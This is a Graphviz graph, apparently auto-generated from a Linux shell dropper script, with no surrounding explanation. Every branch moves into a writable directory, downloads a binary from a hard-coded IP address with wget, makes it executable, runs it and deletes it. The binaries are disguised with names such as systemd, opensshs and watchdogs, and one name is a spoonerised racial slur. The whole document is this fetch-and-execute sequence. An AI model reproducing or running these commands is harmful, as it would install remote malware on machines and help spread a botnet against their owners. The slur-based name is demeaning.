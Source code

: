 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://173.212.253.150/systemd "];
10 -> 12 [label=";,"];
12 [label="chmod +x systemd "];
12 -> 14 [label=";,"];
14 [label="./systemd "];
14 -> 16 [label=";,"];
16 [label="rm -rf systemd "];
16 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 28 [label="||,"];
28 [label="wget http://173.212.253.150/telents "];
28 -> 30 [label=";,"];
30 [label="chmod +x telents "];
30 -> 32 [label=";,"];
32 [label="./telents "];
32 -> 34 [label=";,"];
34 [label="rm -rf telents "];
34 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 46 [label="||,"];
46 [label="wget http://173.212.253.150/telnetds "];
46 -> 48 [label=";,"];
48 [label="chmod +x telnetds "];
48 -> 50 [label=";,"];
50 [label="./telnetds "];
50 -> 52 [label=";,"];
52 [label="rm -rf telnetds "];
52 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 64 [label="||,"];
64 [label="wget http://173.212.253.150/opensshs "];
64 -> 66 [label=";,"];
66 [label="chmod +x opensshs "];
66 -> 68 [label=";,"];
68 [label="./opensshs "];
68 -> 70 [label=";,"];
70 [label="rm -rf opensshs "];
70 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 82 [label="||,"];
82 [label="wget http://173.212.253.150/ifconfigss "];
82 -> 84 [label=";,"];
84 [label="chmod +x ifconfigss "];
84 -> 86 [label=";,"];
86 [label="./ifconfigss "];
86 -> 88 [label=";,"];
88 [label="rm -rf ifconfigss "];
88 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 100 [label="||,"];
100 [label="wget http://173.212.253.150/gccs "];
100 -> 102 [label=";,"];
102 [label="chmod +x gccs "];
102 -> 104 [label=";,"];
104 [label="./gccs "];
104 -> 106 [label=";,"];
106 [label="rm -rf gccs "];
106 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 118 [label="||,"];
118 [label="wget http://173.212.253.150/nmaps "];
118 -> 120 [label=";,"];
120 [label="chmod +x nmaps "];
120 -> 122 [label=";,"];
122 [label="./nmaps "];
122 -> 124 [label=";,"];
124 [label="rm -rf nmaps "];
124 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 136 [label="||,"];
136 [label="wget http://173.212.253.150/zmaps "];
136 -> 138 [label=";,"];
138 [label="chmod +x zmaps "];
138 -> 140 [label=";,"];
140 [label="./zmaps "];
140 -> 142 [label=";,"];
142 [label="rm -rf zmaps "];
142 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 154 [label="||,"];
154 [label="wget http://173.212.253.150/mcrs "];
154 -> 156 [label=";,"];
156 [label="chmod +x mcrs "];
156 -> 158 [label=";,"];
158 [label="./mcrs "];
158 -> 160 [label=";,"];
160 [label="rm -rf mcrs "];
160 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 172 [label="||,"];
172 [label="wget http://173.212.253.150/watchdogs "];
172 -> 174 [label=";,"];
174 [label="chmod +x watchdogs "];
174 -> 176 [label=";,"];
176 [label="./watchdogs "];
176 -> 178 [label=";,"];
178 [label="rm -rf watchdogs "];
178 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 190 [label="||,"];
190 [label="wget http://173.212.253.150/nuckfigger "];
190 -> 192 [label=";,"];
192 [label="chmod +x nuckfigger "];
192 -> 194 [label=";,"];
194 [label="./nuckfigger "];
194 -> 196 [label=";,"];
196 [label="rm -rf nuckfigger "];
196 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://173.212.253.150/systems "];
208 -> 210 [label=";,"];
210 [label="chmod +x systems "];
210 -> 212 [label=";,"];
212 [label="./systems "];
212 -> 213 [label=";,"];
}
